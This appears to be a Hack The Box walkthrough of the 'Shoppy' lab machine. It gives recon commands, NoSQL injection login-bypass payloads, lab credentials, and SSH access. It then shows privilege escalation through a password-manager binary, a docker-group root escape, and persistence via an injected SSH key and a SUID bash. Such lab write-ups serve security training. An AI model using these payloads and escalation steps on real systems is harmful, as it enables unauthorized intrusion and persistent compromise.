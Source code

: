 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
## 🔍 Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.180
nmap -p 22,80,9093 -sCV 10.10.11.180
```

### Hosts File
```bash
echo "10.10.11.180 shoppy.htb mattermost.shoppy.htb" | sudo tee -a /etc/hosts
```

### Subdomain Fuzzing
```bash
wfuzz -u http://10.10.11.180 -H "Host: FUZZ.shoppy.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 169
```

### [Feroxbuster](HTTP.md)
```bash
feroxbuster -u http://shoppy.htb
```

---

## 🔑 NoSQL Auth Bypass

### Target: `/login`
**Bypass Payload (URL-Encoded or Raw)**:
```bash
username=admin'||'a'=='a&password=admin
```

**Headers**:
```http
Content-Type: application/x-www-form-urlencoded
```

### Dump Users via Injection:
```bash
username=admin' || 1==1 //&password=123
```

### Decode MD5 Hash on [CrackStation](https://crackstation.net)

---

## 💬 Mattermost Access

### Use Found Creds
- **User**: josh
- **Pass**: `remembermethisway`

### Locate SSH Creds for `jaeger` in "Deploy Machine" Channel:
- `user: jaeger`
- `pass: Sh0ppyBest@pp!`

---

## 🔐 [SSH](SSH) Access

```bash
sshpass -p 'Sh0ppyBest@pp!' ssh jaeger@shoppy.htb
```

---

## 🧑‍💼 PrivEsc to Deploy

### Sudo Check
```bash
sudo -l
```

### Path Found
```bash
sudo -u deploy /home/deploy/password-manager
```

### Reverse Engineering

**Pull Binary:**
```bash
scp jaeger@shoppy.htb:/home/deploy/password-manager .
```

**Extract Password:**
Use Ghidra OR:
```bash
strings -el password-manager
```

**Result**:
```text
Password: Sample
```

**Use it:**
```bash
sudo -u deploy /home/deploy/password-manager
# --> Deploying@pp!
```

**Switch User:**
```bash
su deploy
```

---

## 🐳 Root via Docker Group

### Confirm Docker Access
```bash
id
docker images
```

### Method 1: Mount Host Filesystem (Basic)
```bash
docker run --rm -it -v /:/mnt alpine /bin/sh
```

### Method 2: chroot Escape to Host (Recommended)
```bash
docker run --rm -it -v /:/mnt alpine chroot /mnt sh
```

### Get Flag
```bash
cat /root/root.txt
```

---

## 🪝 Optional Root Persistence

### SSH Access via Public Key (From Container)
```bash
mkdir /root/.ssh
echo "ssh-ed25519 AAAA...user@host" > /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```

### Or Make Bash SUID
```bash
chmod 4777 /bin/bash
bash -p
```

---

## 🔬 Beyond Root: NoSQL Injection Logic

### Original Code Equivalent:
```js
this.username == 'admin' || 'a'=='a' && this.password == 'pass'
```

### Precedence Breakdown:
```text
true || (true && false) => true
```